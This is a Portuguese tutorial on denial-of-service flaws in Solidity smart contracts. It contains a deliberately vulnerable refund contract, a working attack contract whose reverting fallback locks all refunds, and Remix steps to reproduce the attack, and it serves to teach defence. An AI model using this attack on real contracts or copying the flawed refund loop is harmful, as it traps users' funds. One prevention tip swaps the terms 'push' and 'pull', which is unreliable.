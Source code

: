 ```yaml
---
title: S09. Negando Serviço
tags:
  - solidity
  - segurança
  - fallback
---
```


# Segurança de Contratos Inteligentes, WTF Solidity: S09. Negando Serviço

Recentemente, eu tenho revisado meus conhecimentos em solidity para consolidar detalhes sobre a linguagem e criar um guia "WTF Solidity: Introdução Básica" para pessoas iniciantes (esse guia não é para pessoas que já são especialistas em programação). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Todo o código e os tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

---

Nesta lição, vamos discutir a vulnerabilidade de negação de serviço (DoS) em contratos inteligentes e abordar maneiras de evitar esse tipo de problema. O projeto de NFTs Akutar perdeu 11.539 ETH, o que correspondia a aproximadamente 34 milhões de dólares na época, devido a um bug de DoS.

## DoS

No contexto da Web 2.0, um ataque de negação de serviço (DoS) ocorre quando um servidor é interrompido e não consegue fornecer serviços aos usuários legítimos devido ao envio de grande volume de lixo de informações ou interferências de informações pelo atacante. No Web3, uma DoS em contrato inteligente ocorre quando uma vulnerabilidade é explorada de forma que o contrato não consiga funcionar corretamente.

Em abril de 2022, um projeto de NFT chamado Akutar utilizou um leilão holandês para distribuição de tokens e arrecadou 11.539,5 ETH, tornando-se um grande sucesso. Anteriormente, os participantes da comunidade que possuíam o "Pass" desse projeto deveriam receber 0,5 ETH de reembolso. No entanto, quando eles tentaram processar os reembolsos, descobriram que o contrato inteligente tinha um bug de negação de serviço e todos os fundos ficaram presos. O contrato do Akutar tinha uma vulnerabilidade de DoS.

![](./img/S09-1.png)

## Exemplo de Vulnerabilidade

Abaixo, vamos examinar um contrato chamado `DoSGame` que representa uma versão simplificada do contrato do Akutar. A lógica desse contrato é bastante simples: quando o jogo começa, os jogadores fazem chamadas à função `deposit()` para depositar seus tokens ETH e o contrato registra seus endereços e saldos correspondentes. Quando o jogo termina, a função `refund()` é chamada para reembolsar os jogadores com seus ETH.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

// Jogo com vulnerabilidade de DoS - os jogadores fazem depósitos e, quando o jogo termina, recebem seus reembolsos
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // Todos os jogadores fazem depósitos no contrato
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Registra o saldo do jogador
        balanceOf[msg.sender] = msg.value;
        // Registra os endereços dos jogadores
        players.push(msg.sender);
    }

    // O jogo termina, os reembolsos começam a ser processados sequencialmente
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Reembolsa todos os jogadores em um loop
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

O bug nesse contrato está na função `refund()`. Quando os reembolsos são processados sequencialmente em um loop e a função `call` é utilizada para transferir os ETHs de volta para os jogadores, isso permite que um endereço malicioso execute algum código mal-intencionado em seu contrato durante esse processo.

```
(bool success, ) = player.call{value: refundETH}("");
```

Em seguida, escrevemos um contrato de ataque em que a função `attack()` permite que o endereço malicioso faça um depósito e participe do jogo. A função `fallback()` é uma função de retorno que rejeita todas as transações enviadas para o contrato, atacando a vulnerabilidade de DoS do contrato `DoSGame`. Isso ocorre porque a sequência de reembolsos não pode ser executada corretamente e os fundos ficarão presos no contrato, assim como os mais de 10.000 ETHs no contrato Akutar.

```solidity
contract Attack {
    // Ataque DoS quando os reembolsos são processados
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participa do jogo DoS e faz um depósito
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reprodução no Remix

**1.** Implante o contrato `DoSGame`.
**2.** Chame a função `deposit()` do contrato `DoSGame` para depositar e participar do jogo.
![](./img/S09-2.png)
**3.** Neste ponto, se você chamar a função `refund()` do contrato `DoSGame`, você receberá um reembolso normalmente.
！[](./img/S09-3.jpg)
**4.** Implante novamente o contrato `DoSGame` e implante o contrato `Attack`.
**5.** Chame a função `attack()` do contrato `Attack` para fazer um depósito e participar do jogo.
！[](./img/S09-4.jpg)
**6.** Chame a função `refund()` do contrato `DoSGame` para receber um reembolso e descubra que a transação não é bem sucedida, pois o ataque teve êxito.
！[](./img/S09-5.jpg)

## Medidas Preventivas

Vários erros lógicos podem levar a um DoS em um contrato inteligente, portanto, os desenvolvedores devem ter muito cuidado ao escrever contratos. Abaixo estão algumas áreas que requerem especial atenção:

1. Falhas na chamada de funções de contratos externos (por exemplo, `call`) não devem bloquear recursos importantes. Por exemplo, é possível remover a linha `require(success, "Refund Fail!");` do contrato que possui a falha para que o reembolso se prossiga mesmo se uma única transação falhar.
2. O contrato não deve se auto-destruir inesperadamente.
3. O contrato não deve entrar em loops infinitos.
4. Os parâmetros das funções `require` e `assert` devem ser definidos corretamente.
5. No processo de reembolso, é recomendável permitir que os usuários retirem os fundos por conta própria (push), em vez de realizar um envio em massa de fundos (pull).
6. Verifique se as funções de retorno (fallback) não afetam o funcionamento normal do contrato.
7. Certifique-se de que as principais funcionalidades do contrato ainda possam ser executadas mesmo que o envolvimento dos participantes (como o `owner`) nunca aconteça.

## Conclusão

Nesta lição, falamos sobre a vulnerabilidade de negação de serviço em contratos inteligentes. O projeto Akutar perdeu mais de 10.000 ETHs devido a essa vulnerabilidade. Vários erros lógicos podem levar a DoS, então os desenvolvedores precisam ter muito cuidado ao escrever contratos inteligentes, como permitir que os usuários cliem os seus próprios reembolsos ao invés de realizar um envio em massa de fundos para eles.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->